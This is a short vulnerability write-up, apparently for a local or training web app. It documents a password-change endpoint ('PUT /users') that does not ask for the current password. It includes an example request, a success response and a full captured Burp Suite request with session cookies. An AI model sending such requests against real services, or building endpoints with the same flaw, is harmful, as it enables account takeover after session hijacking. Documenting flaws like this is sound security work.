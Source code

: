 # Lack Password Change Validation/Check
It is widely acknowledged that for users to change a password they ought to be questioned for their current password.  This prevents session hijacks from changing the user's password after gaining control.

## Exploitation
**Prerequisites:** _Authenticated_

**Location:** _PUT /users_

SpringBoot and Angular code lack any validating parameter for the current password. To exploit simply means to change the password as this is exactly what a session hijacker would do.  Below is an exploitation example:

    PUT /users
    raw:
    {
        "newPassword" : "password",
        "username" : "timmy"
    }

Successful exploitation looks like:

    {
        "success": true,
        "code": 200,
        "message": "Password updated successfully."
    }

## Burp Suite Example Exploitation

    PUT /users HTTP/1.1
    Host: 127.0.0.1:8081
    Content-Length: 52
    sec-ch-ua: "Chromium";v="109", "Not_A Brand";v="99"
    Accept: application/json, text/plain, */*
    Content-Type: application/json
    X-XSRF-TOKEN: 877dd681-4a9f-41f0-ae74-d1ada25aab32
    sec-ch-ua-mobile: ?0
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/109.0.5414.120 Safari/537.36
    sec-ch-ua-platform: "Windows"
    Origin: http://127.0.0.1:4200
    Sec-Fetch-Site: same-site
    Sec-Fetch-Mode: cors
    Sec-Fetch-Dest: empty
    Referer: http://127.0.0.1:4200/
    Accept-Encoding: gzip, deflate
    Accept-Language: en-US,en;q=0.9
    Cookie: XSRF-TOKEN=877dd681-4a9f-41f0-ae74-d1ada25aab32; JSESSIONID=1C77B365979B077008298700287FA604
    Connection: close

    {"username":"timmy","newPassword":"password"}

